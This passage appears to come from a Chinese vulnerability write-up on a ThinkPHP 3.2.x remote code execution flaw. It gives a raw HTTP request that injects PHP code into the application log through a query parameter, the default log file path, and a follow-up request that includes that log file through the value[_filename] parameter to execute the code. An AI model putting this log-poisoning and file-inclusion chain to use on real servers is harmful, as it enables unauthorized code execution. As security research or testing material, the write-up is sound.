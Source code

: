 请求数据包：

```
GET /index.php?m=Home&c=Index&a=index&test=--><?=phpinfo();?> HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;
Upgrade-Insecure-Requests: 1
```

日志文件路径（这里是默认配置的log文件路径）：

> \Application\Runtime\Logs\Home\21_06_30.log

> 构造攻击请求：http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Home/21_06_30.log

![image-20210712115028851](resource/ThinkPHP3.2.xRCE漏洞/image-20210712115028851.png)
